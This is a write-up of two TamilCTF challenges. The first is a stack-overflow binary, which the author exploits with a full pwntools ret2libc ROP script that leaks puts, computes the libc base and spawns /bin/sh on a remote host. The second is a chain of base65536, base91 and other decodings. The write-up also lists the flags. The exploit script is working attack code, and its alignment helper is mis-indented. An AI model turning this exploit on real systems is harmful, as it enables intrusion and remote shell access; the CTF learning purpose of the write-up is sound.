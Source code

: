 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930134637.png)



*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}





# Bases 485 Points ,22 solves

***We are give a file encoded in some randome gibrish***
```bash
╭─ ~/Desktop/Tamilctf/bases │ sam0x@parrot                                                                                                                                                 ✔ 
╰─ cat file.txt 
噯缾𔔸𠅻診噩ꔻꕳ𔔯煐鸩𠅙欫葦葔踥慚灩ꉊ蠫噰噷葌鹀𓈻𖤨𐘱𔑬訮桷陦ꄷ橪鰨𔔫ꉕ蔥𖠻𖡻詓败捄堲絠浩怦𔑢蝂潣縨𓌩蹗襠ꅮ洱𒀰萵饌鍟𒀲橒昻萳靓𔕧罀ᕣ
```

***After a bit of researching and previous ctf ideas found out that this  is a base65536 encoded file***

-BASE65536 as per records:-
- Base65536 is a binary encoding optimised for UTF-32-encoded text. (For transmitting data through Twitter, Base65536 is now considered obsolete; see 		
- Base2048.) This JavaScript module, base65536, is the first implementation of this encoding.
- Base65536 uses only "safe" Unicode code points - no unassigned code points, no whitespace, no control characters, etc..
	
## To deocde the base65536 we first convert it into a unicode using npm module of base65536
```javascript
import { encode, decode } from 'base65536'
import fs from 'fs'

var  data=fs.readFileSync('file.txt').toString('utf-8')
var decoded = new Uint8Array(decode(data))

fs.writeFileSync('out',decoded)
```
__This gives us a decoded output : 26p0EtovXlssmYqbk1UON3JCIFVyYW3V3culA1cJ0AJ8mHvzgWbefttYEpfYlcpt9nh3oZiaWI24d0jzcxBOdq0Ybes3EKUw7GEEfLYM0qpp___
- This doesnt look like any known base encodings 
- After a bit of googling found out that this is a base91 encoded value

Fun thing ***Found a github repo that finds and deocdes the known basex values***

[Github](https://github.com/mufeedvh/basecrack)
	
**After that thats a matter of multiple times of decoding**
- The order goes like BASE65535->BASE91->BASE62->BASE32->ASCII85->FLAG
***FLAG***
## TamilCTF{B4s3_C1ph3r_4r3_re4lly_c00l!!}
